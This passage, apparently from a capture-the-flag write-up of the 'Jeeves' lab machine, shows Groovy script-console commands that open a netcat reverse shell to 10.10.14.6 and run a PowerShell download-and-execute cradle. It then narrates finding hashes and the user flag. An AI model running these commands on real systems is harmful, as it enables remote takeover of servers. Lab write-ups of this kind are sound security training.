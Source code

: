 ```bash
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap nc -nlvp 443
```

```ruby
println "\\10.10.14.6\smbFolder\nc.exe -e cmd 10.10.14.6 443".execute().text
println "\\\\10.10.14.6\\smbFolder\\nc.exe -e cmd 10.10.14.6 443".execute().text

command = "\\10.10.14.6\smbFolder\nc.exe -e cmd 10.10.14.6 443"
println(command.execute().text)

command = "\\\\10.10.14.6\\smbFolder\\nc.exe -e cmd 10.10.14.6 443"
println(command.execute().text)

command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/PS.ps1')"
println(command.execute().text)

```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_12.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

The **Reverse Shell** left me in a directory inside the **Administrator** user's home, if I enumerate a little its content I can access to several files that contain several hashes, I could try to crack them somehow, but I don't think it would be a good attack vector for the moment. Can perform a search in the directories and their subdirectories, using the **`/s`** parameter of the `dir` command, looking for the user's flag and I can now access its contents, the first phase is already completed.

```cmd
dir /s
```

<br/><br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_17.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_18.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_19.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
